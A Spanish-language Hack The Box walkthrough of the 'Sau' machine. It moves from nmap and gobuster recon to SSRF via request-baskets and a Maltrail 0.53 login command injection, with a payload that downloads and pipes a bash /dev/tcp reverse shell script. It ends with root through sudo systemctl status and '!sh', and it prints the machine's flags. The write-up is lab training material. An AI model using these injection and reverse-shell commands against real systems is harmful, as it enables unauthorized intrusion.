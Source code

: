```yaml
---
title: Sau HTB
date: 2023-07-11
tier: 
author: naibu3
---
```

## Reconocimiento

Como siempre comenzamos lanzando [[nmap]], para tratar de buscar puertos abiertos:

```bash
sudo nmap -sS -p- --open --min-rate 5000 -n -Pn 10.129.15.193 -v
```
```nmap
PORT      STATE SERVICE
22/tcp    open  ssh
55555/tcp open  unknown
```

Solo vemos dos puertos abiertos, el [[22-ssh]] y el **55555** vamos a lanzar scripts de reconocimiento para tratar de obtener más información:

```nmap
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Thu, 13 Jul 2023 12:42:17 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Thu, 13 Jul 2023 12:41:47 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Thu, 13 Jul 2023 12:41:48 GMT
|_    Content-Length: 0
```

Si buscamos la versión de ssh en [launchpad](https://launchpad.net/ubuntu/+source/openssh/1:8.2p1-4), vemos que puede tratarse de un **Ubuntu Focal**.

```bash
sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.11.224:55555/ -t 20
```
```gobuster
/admin                (Status: 200) [Size: 0]
/baskets              (Status: 401) [Size: 0]
/test                 (Status: 200) [Size: 0]
/web                  (Status: 200) [Size: 8700]
```

Parece que hay una web en el puerto 55555. Si entramos vemos que se trata de un servicio de *webhooks* que parece utilizar un proyecto de github llamado [requests-baskets](https://github.com/darklynx/request-baskets). Con una búsqueda en internet descubrimos que es vulnerable a [[CSRF]]. Hay un [gist](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3) de github que explica cómo explotarlo.

## Explotación

Para la explotación, debemos hacer la siguiente petición:

```bash
curl --location 'http://10.10.11.224:55555/api/baskets/new' --header 'Content-Type: application/json' --data '{"forward_url": "http://127.0.0.1:80/", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'
```

Ahora al acceder a la basket (`http://10.10.11.224:55555/api/baskets/new`), nos redirige a otro servicio que solo estaba disponible accediendo desde el servidor en local.

Este servicio se trata de **Maltrail** (v**0.53**), como vemos en la parte inferior. SI hacemos una búsqueda por internet, descubriremos que hay una vulnerabilidad relacionada con el **login**.
Para poder acceder a dicho recurso debemos repetir el proceso anterior:

```bash
curl --location 'http://10.10.11.224:55555/api/baskets/new' --header 'Content-Type: application/json' --data '{"forward_url": "http://127.0.0.1:80/login", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'
```

Si tratamos de acceder a `http://10.10.11.224:55555/api/baskets/new`, nos dará un mensaje de *login-failed*. Ahora ya podemos explotar dicha [vuln]():

```bash
curl 'http://10.10.11.224:55555/new6/login'  --data 'username=;`<command>`'
```

Crearemos un archivo *rev.sh* y trataremos de establecer una [[Reverse shell]]:

```rev.sh
bash -i >& /dev/tcp/10.10.16.53/39393 0>&1
```
```bash
curl 'http://10.10.11.224:55555/new6/login'  --data 'username=;`curl 10.10.16.53/rev.sh | bash`'
```

Y ya estaríamos dentro, podemos aplicar un [[Tratamiento de la tty]]. Somos el usuario **puma** (`46a525e05ef068d9121d0dc72144bcf5`).

## Escalada de privilegios

Si buscamos que archivos podemos ejecutar como *sudo*, encontraremos que podemos ejecutar:

```bash
sudo -l
```
```bash
/usr/bin/systemctl status trail.service
```

Si buscamos en [gtfoBins](https://gtfobins.github.io/gtfobins/systemctl/), vemos que podemos hacernos **root** con:

```bash
sudo /usr/bin/systemctl status trail.service
```
```vim
!sh
```

Y ya hemos resuelto la máquina (`bea514c27e2e6e5731ea9f0dde6f40a0`)!